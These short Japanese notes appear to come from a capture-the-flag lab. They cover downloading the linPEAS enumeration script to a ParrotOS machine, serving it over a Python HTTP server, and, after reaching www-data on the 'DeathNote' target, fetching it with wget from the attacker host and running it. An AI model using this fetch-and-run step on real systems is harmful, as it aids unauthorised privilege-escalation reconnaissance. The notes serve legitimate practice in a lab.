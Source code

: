 - ParrotOSのhomeに`/opt`を作るって移動する。設定をNATにする
- googleで`github linpeas`を検索する
- 一番上のサイトを開けてREADMEにQuick Startがある。`curl -L http://github~`をコピーする。
- Parrotのターミナルに貼り付けて`curl`を`wget`にして、`| sh`を消して`> linpeas.sh`にする
- `chmod +x 755 linpeas.sh`にする
- `python3 -m http.server 8080`

### DeathNoteで試す
- www-dataまでいく
- /tmpに移動して`wget http://Parrotのアドレス:8080/linpeas.sh`
- `chmod +x linpeas.sh`
- `./linpeas.sh`

